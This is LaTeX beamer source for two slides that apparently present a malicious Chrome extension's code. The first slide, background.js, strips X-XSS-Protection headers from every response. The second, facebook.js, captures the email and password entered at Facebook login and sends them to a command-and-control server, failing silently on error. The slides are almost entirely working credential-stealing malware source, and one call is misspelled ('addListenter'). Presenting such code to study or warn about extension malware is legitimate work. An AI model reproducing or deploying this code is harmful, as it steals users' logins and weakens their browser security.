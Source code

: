 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Killing Security Headers}
  \begin{center}
    \begin{tcolorbox}[title=background.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        function removeMatchingHeaders(headers, regex, callback){
          for (let i = 0; i < headers.length; i++){
            if (headers[i].name.match(regex)){
              headers.splice(i, 1);
              callback(headers);
              return true;
            }
          }
          return false;
        }
        function remove_security_headers(details){
          removeMatchingHeaders(
            details.responseHeaders,
            /x-xss-protection/i,
            function(headers){
              return true;
            }
          );
        }
        chrome.webRequest.onHeadersReceived.addListenter(
          remove_security_headers,
          {urls: ['*://*/*']},
          ['blocking', 'responseHeaders']
        );
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}

\begin{frame}[fragile]{}
  \frametitle{The Code}
  \framesubtitle{Stealing Facebook Credentials}
  \begin{center}
    \begin{tcolorbox}[title=facebook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        document.getElementById('loginbutton').getElementsByTagName('input')[0].addEventListener('click',function(){
		  try {
			let email = document.getElementById('email'); //Get Email Address Element
			let pass = document.getElementById('pass');   //Get Password Element
			if (email.value != '' && pass.value != ''){   //Check if data was entered in login fields
                          let data = {                                //Capture timestamp, site, user and pass
				"auth": {
				  timestamp: Date.now(),
				  site: "facebook.com",
				  user: email.value,
				  pass: pass.value
				}
			  };
			  cnc(data, function(data){                  //Send the data to to CnC server
				return true;
			  });
                          return true;
                       }
	               return false;
		  } catch(error){
			return false;                                //Try to fail silently
		  }
	    });
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
